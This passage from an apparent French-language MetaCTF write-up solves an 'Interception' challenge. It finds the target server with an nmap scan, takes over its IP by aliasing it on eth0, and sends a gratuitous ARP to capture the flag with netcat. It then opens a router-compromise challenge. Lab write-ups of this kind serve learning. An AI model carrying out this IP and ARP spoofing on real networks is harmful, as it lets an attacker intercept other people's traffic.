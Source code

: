Nous devons identifier la victime et le serveur pour récupérer leurs adresses IP avant de mettre en place la même attaque que ci-dessus. 

### Implémentation de la solution

Nous étions toujours sur une machine busybox, mais cette fois-ci `nmap` était installé :

```
/ # which nmap
/usr/bin/nmap
```

Nous pouvons donc l'utiliser pour découvrir quel serveur va recevoir le flag  :

```
/ # nmap -p 8000 192.168.0.* | grep -B 4 open
Nmap scan report for ip-192-168-0-78.ec2.internal (192.168.0.78)
Host is up (0.000014s latency).

PORT     STATE SERVICE
8000/tcp open  http-alt
```

Nous avons ensuite utilisé la même technique que précédemment :

```
/ # ifconfig eth0:1 192.168.0.78

/ # arping -c 1 -U -s 192.168.0.78 192.168.0.1
ARPING 192.168.0.1 from 192.168.0.78 eth0
Sent 1 probe(s) (0 broadcast(s))
Received 0 response(s) (0 request(s), 0 broadcast(s))

/ # nc -l 8000
MetaCTF{s0_m4ny_1ps_but_wh1ch_t0_ch00s3}
```

Flag : **MetaCTF{s0_m4ny_1ps_but_wh1ch_t0_ch00s3}**

# Interception III

Par : ABE + FPI

Dans ce challenge, les machines cibles ne sont pas dans le même réseau que nous. L'objectif est donc de compromettre un routeur afin de modifier la route empruntée par les paquets. Ceci dans le but de les intercepter en écoutant le trafic UDP sur le routeur compromis.

## Details

- Catégorie : other
- Points : 275
- Résolutions : 45

### Description
